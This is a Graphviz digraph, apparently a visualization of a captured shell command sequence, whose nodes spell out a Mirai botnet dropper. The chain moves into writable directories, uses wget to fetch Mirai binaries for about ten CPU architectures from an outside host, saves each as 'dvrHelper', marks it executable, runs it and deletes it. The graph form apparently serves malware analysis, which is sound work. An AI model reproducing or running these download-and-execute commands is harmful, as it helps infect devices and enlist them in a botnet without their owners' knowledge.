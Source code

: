 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://kysfag.3x.ro/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://kysfag.3x.ro/mirai.m68k -O dvrHelper "];
28 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://kysfag.3x.ro/mirai.mips -O dvrHelper "];
46 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://kysfag.3x.ro/mirai.mpsl -O dvrHelper "];
64 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://kysfag.3x.ro/mirai.x86 -O dvrHelper "];
82 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://kysfag.3x.ro/mirai.spc -O dvrHelper "];
100 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://kysfag.3x.ro/mirai.arm7 -O dvrHelper "];
118 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://kysfag.3x.ro/mirai.arm5n -O dvrHelper "];
136 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://kysfag.3x.ro/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://kysfag.3x.ro/mirai.ppc -O dvrHelper "];
172 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://kysfag.3x.ro/mirai.sh4 -O dvrHelper "];
190 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 196 [label=";,"];
196 [label="rm -rf dvrHelper\r "];
196 -> 197 [label=";,"];
}
